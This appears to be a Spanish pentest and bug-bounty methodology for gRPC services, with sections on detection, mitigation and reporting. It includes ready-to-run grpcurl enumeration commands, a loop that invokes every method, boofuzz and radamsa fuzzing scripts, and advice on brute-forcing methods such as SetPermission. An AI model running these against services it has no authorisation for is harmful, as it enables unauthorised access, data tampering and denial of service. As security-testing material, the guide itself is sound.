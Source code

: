 # gRPC: Reflexión, Conversión y Fuzzing

## Resumen

**Qué es:** gRPC es un framework de comunicación eficiente basado en Protobuf, ideal para microservicios y APIs de alto rendimiento.
**Por qué importa:** La reflexión y las conversiones expuestas facilitan mapeo rápido y ataques dirigidos, mientras que las pruebas de fuzzing revelan vulnerabilidades ocultas en la lógica binaria.
**Cuándo aplicarlo:** Indispensable en pentests y bug bounty sobre APIs internas o de alto rendimiento con arquitectura microservicios.

---

## Contexto

**Supuestos:**

- Acceso a endpoints gRPC en HTTP/2, TCP o sockets Unix (`:50051`, `/grpc`).
- Herramientas: grpcurl, gRPCui, Burp Extension gRPC, protobuf decoders, boofuzz, radamsa.
- Definiciones de servicios en ficheros `.proto` accesibles o recuperables por reflexión.
- Tests en infraestructuras modernas: Go, Python, Java, Node.js.

**Límites:**

- No cubre servicios expuestos solo vía API Gateway.
- Enfoque en gRPC/Protobuf, no en Thrift o SOAP Binario.

---

## Metodología

1. **Reconocimiento del endpoint:**
   - Identificar puertos y rutas gRPC expuestas.
   - Probar con `grpcurl` si el servicio soporta reflexión.
2. **Enumeración con reflexión:**
   - Lanzar `grpcurl -plaintext <host>:<port> list` y `grpcurl -plaintext <host>:<port> describe <Service>`.
   - Exfiltrar nombres de métodos, tipos, mensajes y comentarios útiles.
3. **Conversión y crafting de payloads:**
   - Compilar `.proto` con `protoc` para obtener estructuras de mensajes.
   - Generar ejemplos válidos y valores borde para cada campo.
   - Convertir binarios a JSON para manipulación rápida.
4. **Pruebas de fuzzing:**
   - Automatizar pruebas enviando valores extremos, nulos, sobre/underflows en campos Protobuf.
   - Usar radamsa, boofuzz o scripts Python para fuzzear mensajes.
   - Comparar respuestas y analizar errores (desbordamiento, parsing, DoS).

**Checklist de verificación:**

- Servicio permite reflexión e introspección.
- Validación binaria estricta en backend.
- Timeout y límite de tamaño configurados.
- Errores gestionados sin filtración de lógica interna.
- Autorización a nivel de método/campo.

---

## Pruebas Manuales

### 1. Reflexión con grpcurl

```sh
grpcurl -plaintext atacante.com:50051 list
grpcurl -plaintext atacante.com:50051 describe NombreServicio
```

Obteniendo todos los comandos, métodos y tipos.

### 2. Generación de payloads válidos/atípicos

```proto
message Usuario {
  string nombre = 1;
  int32 edad = 2;
  bool isAdmin = 3;
}
```

```sh
grpcurl -d '{ "nombre": "A", "edad": -1, "isAdmin": true }' \
  -plaintext atacante.com:50051 Servicio/Metodo
```

### 3. Fuzzing de campos Protobuf

```python
from boofuzz import *
session = Session(target=Target(connection=SocketConnection('atacante.com',50051,proto='tcp')))
s_initialize("gRPC Fuzz")
s_string("usuario", fuzzable=True)
s_int32(-2147483648, fuzzable=True)  # edge case
session.connect(s_get("gRPC Fuzz"))
session.fuzz()
```

### 4. Manipulación en JSON → Protobuf → gRPC

- Convertir binarios usando `protoc --decode_raw`.
- Pruebas manuales con parámetros incorrectos, arrays enormes o campos omitidos.

---

## PoC Automatizada

**Ataque de reflexión y fuzzing con grpcurl:**

```sh
grpcurl -plaintext atacante.com:50051 list
for m in $(grpcurl -plaintext atacante.com:50051 list Servicio); do
   grpcurl -d '{}' -plaintext atacante.com:50051 Servicio/$m
done
```

**Fuzz con radamsa:**

```sh
echo '{"nombre":"A", "edad":30}' | radamsa | grpcurl -d @ -plaintext atacante.com:50051 Servicio/Metodo
```

---

## Explotación y Automatización

- *Conversión masiva:* Generar combinaciones extremas de campos usando conversión JSON-binario-protobuf.
- *Replay y brute force* en métodos sensibles (`CreateUser`, `SetPermission`, `ImportData`).
- *Fuzzing avanzado* con boofuzz y radamsa para saturar parsing binario.
- *Null value/overflows:* Envío repetido de binarios truncados, oversized o tipos erróneos.

---

## Impacto

- **Full domain enumeration:** Descubres todos los métodos y tipos internos.
- **Data manipulation:** Creación, modificación y destrucción de objetos internos.
- **Denegación/overflow:** Saturación del backend por parsing defectuoso.
- **Logic bypass:** Acceso a métodos críticos vía crafting binario.

**CWE/OWASP:** A03 Excessive Data Exposure, CWE-119 Memory Corruption, CWE-20 Input Validation.

---

## Detección

- Logs de errores binarios: parsing, stacktraces, invalid type.
- Acceso repetido/fuzzing de métodos por usuarios anónimos.
- Análisis de picos inusuales en memory o CPU tras fuzzing.
- Correlación de errores en campos y mensajes.

---

## Mitigación

- Deshabilitar reflexión en producción.
- Validar y sanear payloads binarios antes de procesarlos.
- Autorización granular a nivel de método y campo.
- Configurar límites estrictos de tamaño y complejidad en los mensajes.
- Manage errors: stacktraces y detalles internos fuera de respuestas al cliente.

---

## Errores Comunes

- No filtrar métodos expuestos por reflexión.
- Falta de validación de tipos/nulos/extremos en toda la lógica Protobuf.
- Mensajes de error con detalles de infraestructura.

---

## Reporte

**Título:** Reflexión y fuzzing en gRPC permiten exfiltración y denegación de servicio en APIs internas
**Impacto:** Enumeración total, manipulación binaria y DoS.
**Evidencias:**

- Salidas de grpcurl mostrando métodos y tipos expuestos.
- Payloads extremos generando errores y entrada no validada.
- Fuzzing automatizado con resultados críticos.

**Mitigación:**

- Deshabilitar reflexión, validar binarios y aplicar authorization granular por método.

---
